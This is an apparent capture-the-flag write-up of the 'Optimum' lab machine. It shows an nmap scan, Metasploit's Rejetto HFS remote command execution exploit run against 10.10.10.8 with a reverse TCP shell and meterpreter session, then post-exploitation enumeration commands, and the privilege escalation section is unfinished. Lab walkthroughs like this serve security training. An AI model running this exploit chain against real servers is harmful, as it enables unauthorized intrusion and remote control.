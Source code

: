 ## Write up

I started with the nmap scan to see the open ports.

```
nmap -sV -sC -oA nmap 10.10.10.8
```

Generated 3 nmap output files and opened the nmap.nmap file.

This is the content of the nmap.nmap file

`# Nmap 7.50 scan initiated Mon Jul 10 21:13:26 2017 as: nmap -sV -sC -oA nmap 10.10.10.8`

`Nmap scan report for 10.10.10.8`

`Host is up (0.55s latency).`

`Not shown: 999 filtered ports`

`PORT   STATE SERVICE VERSION`

`80/tcp open  http    HttpFileServer httpd 2.3`

`|_http-server-header: HFS 2.3`

`|_http-title: HFS /`

`Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows`

`Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .`

`# Nmap done at Mon Jul 10 21:14:33 2017 -- 1 IP address (1 host up) scanned in 67.96 seconds`

The port 80 is open and it uses HttpFileServer httpd 2.3. I opened the msfconsole \(metasploit\) to search and see the available exploits for the current version of HttpFileServer \(HFS\). I used the search command as shown below.

```
msf > search hfs
```

And it shows the matching modules.

```
Matching Modules
================

   Name                                        Disclosure Date  Rank       Description
   ----                                        ---------------  ----       -----------
   exploit/multi/http/git_client_command_exec  2014-12-18       excellent  Malicious Git and Mercurial HTTP Server For CVE-2014-9390
   exploit/windows/http/rejetto_hfs_exec       2014-09-11       excellent  Rejetto HttpFileServer Remote Command Execution
```

Here, we can see already the available exploit for the HttpFileServer \(HFS\).

I used the `exploit/windows/http/rejetto_hfs_exec`as the exploit.

```
msf > use exploit/windows/http/rejetto_hfs_exec
```

Setting the RHOST to the IP address of the Optimum and running the exploit.

```
msf exploit(rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                       yes       The target address
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(rejetto_hfs_exec) > set RHOST 10.10.10.8
RHOST => 10.10.10.8
msf exploit(rejetto_hfs_exec) > 
msf exploit(rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.9:4444 
[*] Using URL: http://0.0.0.0:8080/IrcKe8v9
[*] Local IP: http://10.0.0.69:8080/IrcKe8v9
[*] Server started.
[*] Sending a malicious request to /
...
```

After running the exploit, I am able to access the shell with meterpreter.

### **Enumeration and finding the user.txt**

Commands that I used to enumerate.

```
meterpreter> sysinfo #to see the information of the system

meterpreter> shell #to access the shell and find the user.txt which is located on C:\Users\kostas\Desktop

wmic qfe get Caption,Description,HotFixID,InstalledOn #to see the security updates of the OS
```

### Privilege Escalation

Used commands

```
background

sessions -l

sessions -i <session #>


```

\(WIP\)

